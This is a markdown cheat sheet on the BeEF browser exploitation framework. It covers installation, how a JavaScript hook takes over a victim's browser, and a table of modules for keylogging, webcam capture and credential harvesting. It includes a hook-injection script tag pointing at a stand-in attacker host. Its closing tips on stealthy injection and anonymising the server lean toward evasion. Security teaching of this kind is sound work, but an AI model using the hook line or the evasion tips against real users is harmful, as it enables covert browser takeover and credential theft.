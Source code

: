 
# 🐟 BeEF (Browser Exploitation Framework)

## 📌 Overview

**BeEF** is an open-source penetration testing tool that focuses on leveraging browser vulnerabilities and user interaction to assess the security posture of a target. Unlike traditional frameworks that focus on network or host exploitation, BeEF specializes in exploiting the web browser as the attack vector.

> 🎯 **Purpose:** Hook a target’s browser to execute commands, gather information, or launch further attacks — all through social engineering and client-side exploits.

---

## 🔑 Key Features

- 🐟 **Browser Hooking:** Inject a JavaScript “hook” to control the victim’s browser.
    
- 🧩 **Modular Architecture:** 100+ modules for various attacks (e.g., keylogging, webcam access, social engineering).
    
- 🔄 **Real-Time Command Execution:** Interact with the hooked browser live.
    
- 🔍 **Client-side Reconnaissance:** Collect system, browser, and network info.
    
- 📡 **Pivoting:** Use the hooked browser as a beachhead for further attacks.
    
- 📜 **Customizable Hooks:** Craft phishing pages, inject payloads.
    

---

## 🚀 Installation

### On Kali Linux (pre-installed)

```bash
sudo service postgresql start
sudo beef-xss
```

### Manual Installation (Ubuntu/Debian)

```bash
git clone https://github.com/beefproject/beef.git
cd beef
./install
./beef
```

---

## 🧭 How It Works

1. **Hook Injection:** Victim visits a webpage containing the BeEF hook JavaScript snippet.
    
2. **Browser Hooked:** The hook connects back to the BeEF server.
    
3. **Control Panel:** Attacker uses a web interface to run commands on the victim’s browser.
    
4. **Modules:** Select and execute modules against the hooked browser.
    

---

## ⚙️ Typical Attack Flow

|Step|Description|
|---|---|
|1. Hook Injection|Embed `<script src="http://attacker.com:3000/hook.js"></script>` in a phishing page or injected content|
|2. Victim Loads Page|Victim’s browser loads the hook and connects to BeEF server|
|3. Attacker Controls|Use BeEF UI to run modules: keylogger, social engineering prompts, webcam access|
|4. Further Exploits|Pivot to internal network, capture credentials, or perform MITM|

---

## 🔧 Popular Modules

|Module|Description|
|---|---|
|**Keylogger**|Capture keystrokes in real time|
|**Webcam Snap**|Take pictures via victim’s webcam (if permissions granted)|
|**Geolocation**|Retrieve victim’s physical location|
|**Social Engineering**|Pop-up dialogs, fake alerts, fake login forms|
|**Network Info**|Gather local IP, hostname, and other environment data|
|**Port Scanner**|Scan victim’s internal network from browser|
|**Credential Harvester**|Capture form inputs on pages|

---

## 🛡️ Use Cases

- Phishing & social engineering engagements
    
- Client-side vulnerability assessments
    
- Testing browser and extension security
    
- Demonstrating real risks of client-side attacks
    

---
## 🧠 Pro Tips

- Combine BeEF with phishing frameworks to maximize social engineering impact.
    
- Use stealthy hook injection to avoid user suspicion.
    
- Regularly update BeEF to leverage latest browser exploits.
    
- Use VPN/proxies to anonymize the BeEF server.
